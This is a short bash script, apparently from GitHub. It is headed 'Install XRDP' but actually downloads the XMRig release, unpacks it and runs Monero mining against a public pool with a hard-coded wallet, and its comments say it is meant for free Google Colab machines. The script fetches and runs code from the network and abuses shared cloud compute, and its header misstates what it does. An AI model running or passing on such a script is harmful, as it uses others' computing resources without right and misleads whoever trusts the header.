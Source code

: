 #! /bin/bash
# Install XRDP
# Before get xmr coin for free
# Google Colab
sudo apt update
clear
sudo apt install screen
screen -R xmr

wget https://github.com/xmrig/xmrig/releases/download/v6.16.4/xmrig-6.16.4-bionic-x64.tar.gz
tar xvzf xmrig-6.16.4-bionic-x64.tar.gz
cd xmrig-6.16.4
./xmrig -o us-west.minexmr.com:443 -u 8BJgqrpcWo9RRzHCvqWTuvJf6bAdgfbAmd3exUkibMSwBLxDEzbfSGUG9hx7LmHKRwNb9D7MY6uocZ8YjePEd2YF3MZnwyr -k --tls --rig-id GC-US

